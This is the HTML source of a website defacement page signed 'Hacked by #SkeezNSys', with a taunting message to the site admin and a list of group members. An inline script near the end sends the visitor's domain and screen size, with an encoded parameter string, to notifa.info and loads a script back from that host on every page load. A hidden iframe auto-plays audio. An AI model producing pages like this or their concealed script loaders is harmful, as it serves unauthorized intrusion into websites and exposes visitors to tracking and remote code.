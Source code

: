 
<html>
<head>
<link href="https://i.ibb.co/zJ6dKnV/20190827-202001.png" rel="icon" type="image/x-icon">
<meta name="description" content="[ SkeezNSysTeM ]">
<meta name="keywords" content="SkeezNSysTeM">
<meta http-equiv="cache-control" content="index,cache">
<meta http-equiv="pragma" content="index,cache">
<title>Hacked by #SkeezNSys</title>
</head>
<body>
<body bgcolor="black">
<center>
<table width='100%' height='100%'>
<td align='center'>
	<style type="text/css">
/* latin */ @font-face { font-family: 'Iceland'; font-style: normal; font-weight: 400; src: local('Iceland'), local('Iceland-Regular'), url(https://fonts.gstatic.com/s/iceland/v8/rax9HiuFsdMNOnWPaKtMARJYk0o.woff2) format('woff2'); unicode-range: U+0000-00FF, U+0131, U+0152-0153, U+02BB-02BC, U+02C6, U+02DA, U+02DC, U+2000-206F, U+2074, U+20AC, U+2122, U+2191, U+2193, U+2212, U+2215, U+FEFF, U+FFFD; }
	</style>
<font face="Iceland" color="white" size="8"> <b><i>Defeated by <font color="red">#SkeezNSys</font></b></i></font>
<br>
<center>
<img src="https://i.ibb.co/zJ6dKnV/20190827-202001.png" height="350" width="350">
</center>	
 <center>
<font face="Iceland" color="red" size="5"><b><i>[ <font color="white">Hello Admin , Wuzzup Im SkeezN<br>
Don't Worry I Just Come To Play , 
Please Fix Your System</font> ]</i></b></font>
<br><br>
<font face="Iceland" color="white" size="5"><b><i>Official Member :</i></b></font><br>
<br><font face="Iceland" size="5" color="red"><b><i>- SkeezNSysTeM</i ></b></font><font face="Iceland" size="5" color="white">-<i><b> Frizee - For3zst - Carlos -<br>- Fath - Seven - ArRose - Dhilz - Exotic Shadow -<br>- Got4xX - Makky -</b></i></font>
<br>
<br>
<font face="Iceland" color="white"><b><i>Copyright 2019 &copy; <font color="red">SkeezNSys</font></b></i></font>
<script type="text/javascript">if (self==top) {function netbro_cache_analytics(fn, callback) {setTimeout(function() {fn();callback();}, 0);}function sync(fn) {fn();}function requestCfs(){var idc_glo_url = (location.protocol=="https:" ? "https://" : "http://");var idc_glo_r = Math.floor(Math.random()*99999999999);var url = idc_glo_url+ "p03.notifa.info/3fsmd3/request" + "?id=1" + "&enc=9UwkxLgY9" + "&params=" + "4TtHaUQnUEiP6K%2fc5C582Am8lISurprA3KXGM6SPhZCBdlTpdHl0AEI1PzhVWP%2bcZYPX%2fosTeJsIsYWhNsAuMXqnl6vMpliX3KK%2fc9%2faMHCbaaSNnzLruZbrIAJbrqDPDzDSMBAKq6K25Le0BCes00ZXdw2aQ%2brKsvIWqgou6sL4%2b2wmo%2bXSFW1XX9I9Eu9kmqO5HuKGMcVQxeJgduoIrVMMMH9S%2bHRf90u7c56MlCYEqDuoSI6QS5m0IXTX%2be2hpzSRIPF0jwQRdUrfBIvJ%2fVt6wCLmiJGJhtPln1zK0oj2izjhudBn7YCDzwygwe7N%2bzhORkTFgaQspXDFQ3Vb1gwONqp%2fcbuBaCFR0s08Bse3uEt%2bpAFRHV7o8AH7DO6%2f7IwhqDDzJBn1VtgIbpXFF59kNkEgerhOTg9enKxKSveKbifF5IGd88BAkj5a%2fw%2fPWVN4nnwQkrSsQAVlZR5%2fNru9QwAx0EoKQP%2ftTo3MaKpnchqFXi1%2busPAJjkfloqeAp%2fePw%2bhxDdmEVdIcapbuaPnL%2bgL7uFC" + "&idc_r="+idc_glo_r + "&domain="+document.domain + "&sw="+screen.width+"&sh="+screen.height;var bsa = document.createElement('script');bsa.type = 'text/javascript';bsa.async = true;bsa.src = url;(document.getElementsByTagName('head')[0]||document.getElementsByTagName('body')[0]).appendChild(bsa);}netbro_cache_analytics(requestCfs, function(){});};</script></body>
<script type="text/javascript" src="https://www.cssscript.com/demo/minimalist-falling-snow-effect-with-pure-javascript-snow-js/snow.js"></script>
<iframe width="0" height="0" src="https://api.soundcloud.com/tracks/124365265/stream?client_id=a3e059563d7fd3372b49b37f00a00bcf" frameborder="0" allowfullscreen auotoplay></iframe>
</html>
    
